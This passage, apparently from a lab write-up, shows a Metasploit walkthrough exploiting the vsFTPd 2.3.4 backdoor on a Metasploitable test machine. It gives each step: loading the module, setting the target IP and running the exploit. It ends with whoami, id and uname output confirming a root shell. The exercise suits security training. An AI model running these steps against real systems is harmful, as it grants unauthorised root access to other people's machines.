 #### 🔹 Step 2: Load the Exploit Module
```bash
use exploit/unix/ftp/vsftpd_234_backdoor
```
- `use` tells Metasploit which **exploit module** to load.
- This specific module targets the **backdoor in vsFTPd 2.3.4** that was identified earlier.

#### 🔹 Step 3: Set the Target IP Address
```bash
set RHOSTS 192.168.1.155
```
- `RHOSTS` means "Remote Hosts" — here, you’re specifying the IP address of the target machine.

#### 🔹 Step 4: Run the Exploit
```bash
run
```
- This launches the exploit. If it succeeds, the target opens a **reverse shell** back to you.

![Metasploit Shell](../../screenshots/attack-simulation-1/metasploit-cli.png)

*Figure 13: Executing commands to gain backdoor access*

---

## ✅ Phase 7: Successful Shell Access

### 🔎 What Happened
- Metasploit successfully triggered the malicious backdoor in `vsFTPd 2.3.4`.
- It returned a shell bound to a high port.
- Confirmed interaction by running:
**Commands:**
```bash
whoami
id
uname -a
hostname
```
**Output:**
```bash
root
uid=0(root) gid=0(root)
Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686 GNU/Linux
metasploitable
```
